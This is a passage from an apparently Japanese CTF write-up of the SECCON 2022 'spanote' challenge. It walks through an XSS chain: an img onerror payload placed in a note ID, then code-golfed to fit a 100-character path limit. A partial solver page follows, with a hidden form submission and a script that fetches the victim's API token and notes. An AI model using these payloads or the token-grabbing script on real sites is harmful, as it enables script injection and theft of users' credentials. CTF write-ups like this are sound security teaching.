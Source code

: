 
`noteId`を`<img src=0 onerror="alert(1)">.html`に指定して削除APIを投げると、
```
GET /api/notes/<img src=0 onerror="alert(1)">.html
```
のリクエストでContent-Typeが`text/html`のノートが返ってきます:

![](/images/2022/20221118-seccon-spanote-08.png)

これを上記のテクニックでページにレンダリングするとXSSが発火します:

![](/images/2022/20221118-seccon-spanote-09.png)

#### Step 4: Code golf

XSSペイロードがそのままURLのパスの一部になるため、あまり長いと攻撃が成功しません。

fastifyの実装を確認すると

- https://github.com/delvedor/find-my-way/blob/v7.3.0/index.js#L87

で100文字が上限であるため、この文字数以下になるようにコードゴルフする必要があります。

これは例えば:
```
<img src=0 onerror="window.addEventListener('message',e=>eval(e.data))">.html
```
で達成可能です。

### Solver

以上のことを踏まえてフラグ奪取のスクリプトを組み立てます。

`public/index.html`:
```html
<body>
  <script>
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const deleteNote = (url, noteId) => {
      const form = document.createElement("form");
      form.action = url;
      form.method = "post";
      form.target = "_blank";

      const input = document.createElement("input");
      input.name = "noteId";
      input.value = noteId;
      form.appendChild(input);

      document.body.appendChild(form);
      form.submit();
    };

    const evilJs = `
      (async () => {
        const { token } = await (await fetch("/api/token")).json();

        const noteIds = await (
          await fetch("/api/notes", {
            headers: { "X-Token": token },
          })
        ).json();

        const notes = await Promise.all(
          noteIds.map((id) =>
            fetch("/api/notes/" + id, {
```